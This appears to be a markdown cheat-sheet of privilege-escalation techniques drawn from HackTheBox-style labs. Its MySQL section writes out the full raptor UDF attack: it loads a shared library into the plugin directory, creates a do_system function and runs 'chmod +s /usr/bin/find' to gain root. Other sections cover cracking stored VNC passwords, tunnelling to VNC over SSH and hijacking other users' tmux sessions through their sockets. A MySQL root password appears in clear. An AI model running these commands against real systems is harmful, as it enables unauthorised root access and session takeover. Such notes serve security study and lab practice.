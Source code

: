 ### mysql
+ epxloit; [1181](https://www.exploit-db.com/exploits/1181), [1518](https://www.exploit-db.com/exploits/1518)
+ udf exploit; compile the c file to so, load and create udf
  > **UnreallRCd backdoor**. [htb-lame], [unrealircd-3281-backdoored](https://blog.stalkr.net/2010/06/unrealircd-3281-backdoored.html)
  > **mysql udf**t. able column is null, **change dir, change max allowed packet**. pg-banzai [database guide](https://database.guide/how-the-load_file-function-works-in-mysql/)

```bash
#mysql
select sys_exec('whoami');
select sys_eval('whoami');
```

```bash
# table column is null, error
## ERROR 1126 (HY000): Can't open shared library 'raptor_udf123.so' (errno: 11 /usr/lib/mysql/plugin/raptor_udf123.so: file too short)'
## File not exit or max_allowed_packet; change the dir to copy, eg. /dev/shm
mysql -u root -pEscalateRaftHubris123

 mysql> use mysql;
 mysql> create table foo(line blob);
 mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
 mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor.so';
 mysql> create function do_system returns integer soname 'raptor.so';
 mysql> select * from mysql.func;
 mysql> select do_system('chmod +s /usr/bin/find');

```

### vnc
+ if you have password, port forward and connect.
+ crack password. [vncpwd.git](https://github.com/jeroennijhof/vncpwd.git)

```bash
# vncpwd, creack
git clone https://github.com/jeroennijhof/vncpwd.git
make
./vncpwd ../secret

# ssh port forward and connect
ssh -L 5901:127.0.0.1:5901 -L 5801:127.0.0.1:5801 charix@$tip

vncviewer -passwd ./secret localhost:5901
```

### tmux
+ old tmux versions problem; htb valentine
+ attach the session file

```bash
# list session file
tmux ls
ps aux | grep tmux #Search for tmux consoles not using default folder for sockets
tmux -S /tmp/dev_sess ls #List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess

# attach session file
tmux attach -t myname #If you write something in this session it will appears in the other opened one
tmux attach -d -t myname #First detach the session from the other console and then access it yourself

ls -la /tmp/dev_sess #Check who can access it
```